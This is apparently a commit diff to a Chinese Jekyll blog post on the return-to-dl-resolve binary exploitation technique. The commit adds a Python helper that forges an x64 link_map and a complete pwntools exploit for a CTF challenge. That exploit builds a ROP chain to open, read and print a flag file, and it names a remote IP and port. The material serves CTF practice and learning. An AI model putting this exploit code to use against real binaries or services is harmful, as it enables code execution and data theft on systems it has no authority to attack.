

Before and after one commit to wangshu88/solei1.github.io, a Jekyll site: the page built from _posts/2017-07-03-return-to-dl-resolve.md, in a window 1280 px wide and 1400 px high, scrolled down 7832 px. Shown: the whole window, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 8585 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
0ctf2018

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -31,7 +31,7 @@ sass:
 author:
   name     : "solei1"
   # job      : "Software Engineer"
-  bio      : "面对大河我无限惭愧 我年华虚度 空有一身疲倦"
+  bio      : "面对大河我无限惭愧 年华虚度 空有一身疲倦"
   thumb    : /images/author.jpg
   email    : beatjean1314@gmail.com
   url      : https://solei1.github.io
--- a/_posts/2017-07-03-return-to-dl-resolve.md
+++ b/_posts/2017-07-03-return-to-dl-resolve.md
@@ -383,7 +383,7 @@ else:
 print p.read(7)             #######################  1
 p.write(p64(len(buf))+buf)  #######################  2
 
-# print "[+] read: %r" % p.read(len(buf))    ####################   3
+# print "[+] read: %r" % p.read(len(buf))
 addr_link_map = p.read_p64()
 print 'addr_link_map %x' % addr_link_map
 addr_dt_debug = addr_link_map + 0x1c8
@@ -411,15 +411,143 @@ p.interact(0)
 
 - 标记1 `print p.read(7)` , 这是程序的欢迎信息, 没有用
 - 标记2`p.write(p64(len(buf))+buf) `, 官方demo写的是p32, 正确是改为p64或者把`p64(len(buf))`删除
-- 标记3, 官方demo没有把这一行注释掉,程序不能运行, 注释掉就可以成功 . (黑人问号???)
 - 标记4, 官方demo提供的这6个数字在我这不能运行, 改的小一点, 注意一致(之前相等的改完也要相等)
 
 
+_x64 64位环境 :_
+
+roputils在64位使用有一个限制，需要泄露出来位于GOT表前面的link_map的地址，然后写入link_map_addr + 0x1c8 = 0，用来bypass。
+
+今天(2018.4.5)看到有大佬伪造link_map来突破这个限制。
+
+[链接1](http://veritas501.space/2017/10/07/ret2dl_resolve%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)
+[链接2](http://ddaa.tw/hitcon_pwn_200_blinkroot.html)
+
+
+辅助函数：
+
+```python
+def ret2dl_resolve_linkmap_x64(ELF_obj,known_offset_addr,two_offset,linkmap_addr):
+    '''
+    WARNING: assert *(known_offset_addr-8) & 0x0000ff0000000000 != 0
+    WARNING: fake_linkmap is 0x100 bytes length,be careful
+    WARNING: two_offset = target - *(known_offset_addr)
+
+    _dl_runtime_resolve(linkmap,reloc_arg)
+    reloc_arg=0
+
+    linkmap:
+    0x00: START
+    0x00: l_addr = two_offset
+    0x08: fake_DT_JMPREL : 0
+    0x10: fake_DT_JMPREL : p_fake_JMPREL
+    0x18: fake_JMPREL = [p_r_offset,r_info,append],p_r_offset
+    0x20: r_info
+    0x28: append
+    0x30: r_offset
+    0x38: fake_DT_SYMTAB: 0
+    0x40: fake_DT_SYMTAB: known_offset_addr-8
+    0x48: /bin/sh(for system)
+    0x68: P_DT_STRTAB = linkmap_addr(just a pointer)
+    0x70: p_DT_SYMTAB = fake_DT_SYMTAB
+    0xf8: p_DT_JMPREL = fake_DT_JMPREL
+    0x100: END
+    '''
+    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr
+
+    linkmap=""
+    linkmap+=p64(two_offset&(2**64-1))
+    linkmap+=p64(0)+p64(linkmap_addr+0x18)
+    linkmap+=p64((linkmap_addr+0x30-two_offset)&(2**64-1))+p64(0x7)+p64(0)
+    linkmap+=p64(0)
+    linkmap+=p64(0)+p64(known_offset_addr-8)
+    linkmap+='/bin/sh\x00'#for system offset 0x48
+    linkmap = linkmap.ljust(0x68,'A')
+    linkmap+=p64(linkmap_addr)
+    linkmap+=p64(linkmap_addr+0x38)
+    linkmap = linkmap.ljust(0xf8,'A')
+    linkmap+=p64(linkmap_addr+8)
+
+    resolve_call = p64(plt0+6)+p64(linkmap_addr)+p64(0)
+    return (linkmap,resolve_call)
+```
+
+
+[DEMO](http://veritas501.space/2018/03/28/%E4%B8%A4%E6%AC%A1CTF%E6%AF%94%E8%B5%9B%E6%80%BB%E7%BB%93/#pwn-xx-game)：
+
+```python
+#coding=utf8
+from pwn import *
+context.log_level = 'debug'
+context.terminal = ['gnome-terminal','-x','bash','-c']
+
+local = 1
+
+if local:
+    cn = process(['./dec.pwn','4091897675'],env={'LD_PRELOAD':'./libc.so'})
+    bin = ELF('./dec.pwn')
+    libc = ELF('./libc.so')
+else:
+    cn = remote('39.107.32.202',2333)
+    bin = ELF('./dec.pwn')
+    libc = ELF('./libc.so')
+
+def z(a=''):
+    gdb.attach(cn,a)
+    if a == '':
+        raw_input()
+
+luckynum = [4091897675,4091897725,4091897731]
+
+def ret2dl_resolve_linkmap_x64(ELF_obj,known_offset_addr,two_offset,linkmap_addr):
+    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr
+    linkmap=""
+    linkmap+=p64(two_offset&(2**64-1))
+    linkmap+=p64(0)+p64(linkmap_addr+0x18)
+    linkmap+=p64((linkmap_addr+0x30-two_offset)&(2**64-1))+p64(0x7)+p64(0)
+    linkmap+=p64(0)
+    linkmap+=p64(0)+p64(known_offset_addr-8)
+    linkmap+='flag\x00'#for open offset 0x48
+    linkmap = linkmap.ljust(0x68,'A')
+    linkmap+=p64(linkmap_addr)
+    linkmap+=p64(linkmap_addr+0x38)
+    linkmap = linkmap.ljust(0xf8,'A')
+    linkmap+=p64(linkmap_addr+8)
+
+    resolve_call = p64(plt0+6)+p64(linkmap_addr)+p64(0)
+    return (linkmap,resolve_call)
+
+prdi=0x0000000000400da3
+prsi_r15=0x0000000000400da1
+buf = 0x602100
+stage = 0x602400
+prdx = 0x0000000000001b92# : pop rdx ; ret
+
+#open
+linkmap1,call1 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['open']-libc.sym['__libc_start_main'],stage)
+#read
+linkmap2,call2 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['read']-libc.sym['__libc_start_main'],stage+0x100)
+#write
+linkmap3,call3 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['write']-libc.sym['__libc_start_main'],stage+0x200)
+#set rdx
+linkmap4,call4 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],prdx-libc.sym['__libc_start_main'],stage+0x300)
+
+pay = 'a'*0x148+p64(prdi)+p64(stage)+p64(bin.plt['gets']) #write linkmap
+pay+=p64(prdi)+p64(stage+0x48)+p64(prsi_r15)+p64(0)+p64(0)+call1 #open
+pay+=p64(prdi)+p64(3)+p64(prsi_r15)+p64(buf)+p64(0)+call2 # read
+pay+=call4+p64(0x20) #set rdx
+pay+=p64(prdi)+p64(1)+p64(prsi_r15)+p64(buf)+p64(0)+call3 #write
+pay+=p64(0x400D36)
+#z('b*0x0000000000400CE8\nb write\nb read\nc')
+cn.sendline(pay)
+sleep(0.1)
+cn.sendline(linkmap1+linkmap2+linkmap3+linkmap4)
+
+cn.interactive()
+```
 
 
 ## 参考
-
-
 
 [http://rk700.github.io/2015/08/09/return-to-dl-resolve/](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)
 
@@ -428,3 +556,5 @@ p.interact(0)
 [http://fanrong1992.github.io/2016/11/09/Return-to-dl-resolve/](http://fanrong1992.github.io/2016/11/09/Return-to-dl-resolve/)
 
 [http://blog.csdn.net/guiguzi5512407/article/details/52752914](http://blog.csdn.net/guiguzi5512407/article/details/52752914)
+
+[http://phrack.org/issues/58/4.html#article](http://phrack.org/issues/58/4.html#article)
````
Also changed, not shown: _posts/2018-04-03-some-tips-in-pwn.md (added, +110 -0 lines).
